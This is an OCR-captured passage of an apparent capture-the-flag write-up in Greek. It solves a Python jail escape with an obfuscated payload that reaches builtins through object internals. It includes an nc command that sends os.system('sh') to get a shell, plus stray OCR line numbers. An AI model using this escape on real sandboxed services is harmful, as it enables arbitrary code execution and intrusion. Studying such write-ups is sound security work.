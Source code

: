```python
'm_repr', 'globals', 'builtins',)

for name, offset in offsets.items():
names[offset] = name

for i, var in enumerate(variables):
assert var not in offsets
names[792 + i] = var


source = f'''[
({",".join(names)}) if [] else [],
None_ := [[]].__delitem__({_(0)}),
keys := None_.__dir__(),
NoneType := None_.__getattribute__({_.__class__}),
keys2 := NoneType.__dir__(NoneType),
get := NoneType.__getattribute__,
m_repr := get(
get(get([],{_.__class__}),{_.__base__}),
{_.__subclasses__}
)()[-{_(2)}].__repr__,
globals := get(m_repr, m_repr.__dir__()[{_(6)}]),
builtins := globals[[*globals][{_(7)}]],
builtins[[*builtins][{_(19)}]](
builtins[[*builtins][{_(28)}]](), builtins
)
]'''.strip().replace('\n', '').replace(' ', '')

print(f"{len(source) = }", file=sys.stderr)
print(source)

# (python exp.py; echo '__import__("os").system("sh")'; cat -) | nc challenge.server port
12345678910111213141516171819202122232425262728293031323334353637383940414243444546474849505152535455565758596061626364656667686970717273
```
Βασικά εκτελεί τα εξής πράγματα, για αυτές τις συμβολοσειρές τις αποκτούμε από τη μέθοδο `__dir__`:
```python
getattr = (None).__getattribute__('__class__').__getattribute__
builtins = getattr(
getattr(
getattr(
[].__getattribute__('__class__'),
'__base__'),
'__subclasses__'
)()[-2],
'__repr__').__getattribute__('__globals__')['builtins']
builtins['eval'](builtins['input']())
```
{% hint style="success" %}